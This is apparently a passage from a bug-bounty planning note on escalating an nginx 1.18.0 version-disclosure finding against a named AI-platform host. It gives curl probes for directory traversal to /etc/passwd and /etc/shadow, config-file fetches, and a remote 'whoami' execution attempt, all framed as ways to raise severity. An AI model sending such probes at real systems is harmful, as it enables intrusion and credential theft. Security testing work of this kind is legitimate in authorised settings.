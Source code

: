 ### **2. Issue #318: Server Information Disclosure Enhancement**

#### **Current Problem**
- No specific CVEs linked to nginx 1.18.0
- Generic server version disclosure
- No clear path to exploitation

#### **Enhancement Strategy**
1. **Research nginx 1.18.0 CVEs and Exploits**
   ```bash
   # Research specific CVEs
   curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx+1.18.0"
   
   # Check for privilege escalation CVEs
   curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx+privilege+escalation"
   ```

2. **Test for Privilege Escalation**
   ```bash
   # Test for local privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/execute" \
     -H "Content-Type: application/json" \
     -d '{"command": "whoami", "elevate": true}'
   ```

3. **Test for Configuration File Access**
   ```bash
   # Test for nginx configuration access
   curl -s "https://workflow.aixblock.io/nginx.conf"
   curl -s "https://workflow.aixblock.io/etc/nginx/nginx.conf"
   curl -s "https://workflow.aixblock.io/conf/nginx.conf"
   ```

4. **Test for Directory Traversal**
   ```bash
   # Test for directory traversal
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/passwd"
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/shadow"
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/hosts"
   ```

5. **Link to Specific Exploitable Vulnerabilities**
   - Find specific CVEs for nginx 1.18.0
   - Demonstrate privilege escalation
   - Show system compromise path
   - Prove business impact

#### **Expected Outcome**
- **Severity**: Medium → High (with specific CVE links)
- **Impact**: Specific exploitation demonstrated
- **Business Value**: Clear security risk identified

### **3. Issue #319: IP Header Injection Enhancement**
